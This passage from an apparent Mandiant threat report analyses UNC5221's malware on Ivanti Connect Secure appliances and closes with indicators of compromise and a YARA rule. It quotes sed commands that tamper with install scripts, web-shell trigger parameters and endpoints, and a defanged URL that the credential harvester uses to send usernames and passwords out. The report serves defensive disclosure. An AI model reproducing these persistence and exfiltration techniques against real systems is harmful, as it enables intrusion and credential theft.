or ./installer.If the parameter --exclude is used, ZIPLINE will add itself to the CS exclusion_list. The exclusion_list is part of the Ivanti Integrity Checker Tool and Mandiant assesses this is a measure implemented by the attacker to evade detection. If the parameter -xzf is used, ZIPLINE computes its own SHA256 hash, formats the line <sha256>  ./root<self_fpath>, and then appends this string to each file within the ./installer/bom_files directory. This is achieved using the command: echo <formatted_sha256_string> >> ./installer/bom_files/<file_name>.If the parameter ./installer is used,  ZIPLINE deletes specific lines from /pkg/do-install and ./installer/do-install. To do so, it executes the following sed commands:sed -i '/retval=$(exec $installer $@)/d' /pkg/do-install sed -i '/exit $?/d' /pkg/do-install sed -i '/retval=$(exec $installer $@)/d' ./installer/do-install sed -i '/exit $?/d' ./installer/do-install THINSPOOL DropperTHINSPOOL is a dropper written in shell script that writes the web shell LIGHTWIRE to a legitimate CS file. THINSPOOL will re-add the malicious web shell code to legitimate files after an update, allowing UNC5221 to persist on the compromised devices. THINSPOOL attempts to evade Ivanti’s Integrity Checker but Mandiant observed this attempt failed.LIGHTWIRE and WIREFIRE Web ShellsLIGHTWIRE is a web shell written in Perl CGI that is embedded into a legitimate Secure Connect file to enable arbitrary command execution. LIGHTWIRE intercepts requests to compcheckresult.cgi that contain the parameters “comp=comp” and “compid”, where “compid” contains Base64-encoded and RC4-encrypted ciphertext. The decoded cleartext is interpreted and executed as Perl code.WIREFIRE is a web shell written in Python that exists as trojanized logic to a component of the Connect Secure appliance. WIREFIRE supports downloading files to the compromised device and executing arbitrary commands. It contains logic inserted before authentication that responds to specific HTTP POST requests to /api/v1/cav/client/visits. If formdata entry “file” exists, the web shell saves the content to the device with a specified filename; if not, the web shell attempts to decode, decrypt, and zlib decompress any raw data existing after a GIF header to execute as a subprocess. The output of the executed process will be zlib compressed, AES-encrypted with the same key, and Base64-encoded before being sent back as JSON with a “message” field via an HTTP 200 OK.WARPWIRE Credential HarvesterWARPWIRE is a credential harvester written in Javascript that is embedded into a legitimate Connect Secure file. WARPWIRE targets plaintext passwords and usernames which are submitted via a HTTP GET request to a command and control (C2) server.WARPWIRE captures credentials submitted during the web logon to access layer 7 applications, like RDP. Captured credentials are Base64-encoded with btoa() before they are submitted to the C2 via a HTTP GET request.hxxps://symantke[.]com/?<username>&<password>AttributionAt the time of publication, Mandiant had not linked this activity to a previously known group, nor do we currently have enough data to assess the origin of this threat actor. UNC5221 was created to track this suspected espionage actor. The targeting of edge infrastructure with zero-day vulnerabilities has been a consistent tactic leveraged by espionage actors to enable their operations. Additionally, Mandiant has previously observed multiple suspected APT actors utilizing appliance specific malware to enable post-exploitation and evade detection. These instances, combined with Volexity’s findings around targeting, leads Mandiant to suspect this is an espionage-motivated APT campaign. UNC5221 primarily used compromised out-of-support Cyberoam VPN appliances for C2. These compromised devices were domestic to the victims, which likely helped the threat actor to better evade detection.Conclusion & RecommendationsUNC5221’s activity demonstrates that exploiting and living on the edge of networks remains a viable and attractive target for espionage actors. As we have previously reported, the combination of zero-day exploitation, edge device compromise, use of compromised C2 infrastructure, and detection evasion methods such as writing code to legitimate files have become a hallmark of espionage actors’ toolboxes.We recommend following the guidance outlined in the Ivanti blog post on this activity. Ivanti customers are urged to implement mitigation as soon as possible and to follow the post for upcoming patch release schedules. Details about Ivanti’s Integrity Checker Tool (ICT) are also available.AcknowledgementWe would like to thank the team at Ivanti for their partnership and support in this investigation. Additionally, this analysis would not have been possible without the assistance from people across Mandiant Intelligence, Consulting, and FLARE as well as our colleagues on Google TAG. We would like to specifically acknowledge Aseel Kayal and Nick Simonian from Mandiant’s Adversary Methods Research and Discovery (RAD) team for their support of this investigation.Indicators of Compromise (IOCs)Code FamilyFilenameDescriptionLIGHTWIREcompcheckresult.cgiWeb shellTHINSPOOLsessionserver.shWeb shell dropperWARPWIRElastauthserverused.jsCredential harvesterWIREFIREvisits.pyWeb shellTHINSPOOL Utilitysessionserver.plScriptZIPLINElibsecure.so.1Passive backdoorNetwork-Based Indicators (NBIs)symantke[.]comWARPWIRE C2YARA Rulesrule M_Hunting_Backdoor_ZIPLINE_1 {  meta:    author = "Mandiant"    description = "This rule detects unique strings in ZIPLINE, a passive ELF backdoor that waits for incoming TCP connections to receive commands from the threat actor."  strings:    $s1 = "SSH-2.0-OpenSSH_0.3xx" ascii    $s2 = "$(exec $installer $@)" ascii    $t1 = "./installer/do-install" ascii    $t2 = "./installer/bom_files/" ascii    $t3 = "/tmp/data/root/etc/ld.so.preload" ascii    $t4 =